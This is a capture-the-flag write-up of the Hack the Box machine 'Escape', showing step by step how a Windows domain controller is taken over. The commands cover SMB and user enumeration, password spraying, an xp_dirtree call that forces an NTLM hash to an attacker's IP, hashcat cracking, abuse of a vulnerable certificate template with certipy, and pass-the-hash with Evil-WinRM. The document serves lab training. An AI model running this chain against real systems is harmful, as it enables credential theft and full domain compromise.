


# Escape
**Date:** February 21st 2024

**Author:** j.info

**Link:** [**Escape**](https://www.hackthebox.com/machines/escape) on Hack the Box

**Hack the Box Difficulty Rating:** Medium

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`nmap -sC -sV -p- -oN nmap --min-rate=4500 escape -Pn`

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-19 21:45:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-19T21:46:07
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
```

Odd, so the box is called escape but the DNS has it listed as sequel. I add both to my hosts file just in case.

<br>

### SMB Digging

I see if null sessions are allowed on the open SMB port and they are, and we have read access to a share called Public.

`smbmap -H sequel -u Guest`


Connecting over to the share we find a single file which I download.


On the first page of the PDF file we see instructions on how to connect to their database server. We also get 2 usernames: Ryan and Brandon, with Brandon also having the full email address: Brandon.Brown@sequel.htb.

On the second page we see a guest credentials for the database server, which we should be able to use it looks like.

I also take a quick look at the PDF with exiftool to see if there are an additional usernames or info but there are not.

Running enum4linux doesn't get us anything useful.

We're able to pull a list of users with crackmapexex using the --rid-brute option.

`crackmapexec smb sequel -u 'Guest' -p '' --rid-brute`


I add those to a users.txt file and then spray them all with crackmapexec and a blank password to see if any of the users can access SMB shares and have more access than our Guest account but they don't.

`crackmapexec smb sequel -u users.txt -p '' --shares`


We saw that the SQLServer2005SQLBrowserUser$DC user was able to read SMB shares so I run enum4linux with that user and it gets a little more info than our Guest user did, but nothing useful.

<br>

## Database Digging

We have the credentials from the PDF file and I use those to connect over using impacket-mssqlclient. One note is the PDF file mentions that you need to use windows authentication, but if you try and do that with impacket-mssqlclient it will not work.

`impacket-mssqlclient -port 1433 sequel.htb/PublicUser:<REDACTED>@dc.sequel.htb`


Checking the list of databases shows us 4.

`select name, database_id, create_date from sys.databases;`


Looking through the master database doesn't get us anything useful.

There are no tables in the tempdb database.

We don't have access to the model database.

So that leaves us with the msdb database to look through, and after we do, there is also no useful information there either.

I try and see if we have xp_cmdshell or can configure it, and we don't have access.

`xp_cmdshell dir`

`EXEC sp_configure 'show advanced options', 1;`


<br>

## Initial Foothold

I've seen other people setup responder and coerce a hash, and this method works and gets us a hash back for the sql_svc user.

First setup responder on Kali:

`sudo responder -I tun0 -v`

Then run this from the database:

`exec xp_dirtree '\\10.10.14.76\fakesharename', 1, 1;`


I copy the hash into a file and use hashcat to see which mode to use, and it's 5600.

`hashcat --show hash.txt`

```
The following 2 hash-modes match the structure of your input hash:

      # | Name                            | Category
  ======+=================================+====================
   5600 | NetNTLMv2                       | Network Protocol
  27100 | NetNTLMv2 (NT)                  | Network Protocol
```

And then use hashcat to crack it.

`hashcat -m 5600 -w 3 -O -D 1,2,3 hash.txt rockyou.txt`


With those credentials we can use Evil-WinRM to connect over and get a shell.



<br>

## System Enumeration

I run winPEAS and don't really see much useful in the results.

Looking at `whoami /priv` doesn't show anything we can abuse.

Looking in the C:\Users folder shows us that the only other standard user with a folder is Ryan.Cooper, so that's our likely target.

Manually looking around the filesystem shows us a C:\Public folder which just has the .PDF we downloaded earlier from the SMB share.

There is also a C:\SQLServer directory which has a Logs directory inside of it, and inside that is a file called ERRORLOG.BAK which I download and look through.


We get some information about an SQL server named SQLMOCK.

```
Server name is 'DC\SQLMOCK'.
```

We also see them making sure that xp_cmdshell does not work:

```
Configuration option 'show advanced options' changed from 1 to 0.
```


We also see that Ryan.Cooper has two failed login attempts, and one of them it looks like it put his password as the username accidentally, so we likely have his password!


I try and Evil-WinRM over as Ryan.Cooper with that password and it works.


You can get the user.txt flag on Ryan's desktop.


I check `whoami /priv` again, and again we don't have anything we can use for escalation.

Nothing in `cmdkey /list` or `klist`.

I look for kerberoastable and asreproastable users with PowerView but don't find any.

Doing a search for the keyword password in common files doesn't give us anything.

`findstr /si password *.xml *.ini *.txt *.config`

<br>

## Administrator

I eventually check to see if ADCS is running, and it is. With certipy I check to see if there are any vulnerable templates for us to exploit.

`certipy-ad find -u ryan.cooper -p <redacted> -target sequel.htb -vulnerable -text`


And looking through our output file we see a vulnerable template named UserAuthentication that will allow SEQUEL.HTB\\Domain Users to enroll, meaning everyone should be able to.



When trying to request the certificate and private key we get an error stating that the NETBIOS connection timed out. From our nmap scan results earlier there was an 8 hour clock skew listed, and fixing that with ntpdate and then rerunning the command gets us what we need.


We then use that pfx file to obtain the Administrator's NTLM hash.


With that we pass the hash over with Evil-WinRM and are able to get a shell!


The root.txt flag is over on the Administrator desktop as usual.


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run-down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Finding an open **SMB** share with login instructions to their MSSQL server
- Using **crackmapexec** to get a valid list of users
- Connecting to the MSSQL database with **impacket-mssqlclient** but not finding any useful information in it
- Setting up **Responder** and coercing a connection from the MSSQL server to us using **exec xp_dirtree**
- Cracking that hash with **hashcat** and connecting with **Evil-WinRM**
- Finding an **SQL error log** that had a failed login attempt with what appeared to be a password instead of a username and using those credentials to move to another user
- Finding that **ADCS** is available and has a vulnerable template
- Using **Certipy** to exploit that template and capture the Administrators NTLM hash
- Passing the hash over with **Evil-WinRM** to get an Administrator shell

<br>

Many thanks to:
- [****]() for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)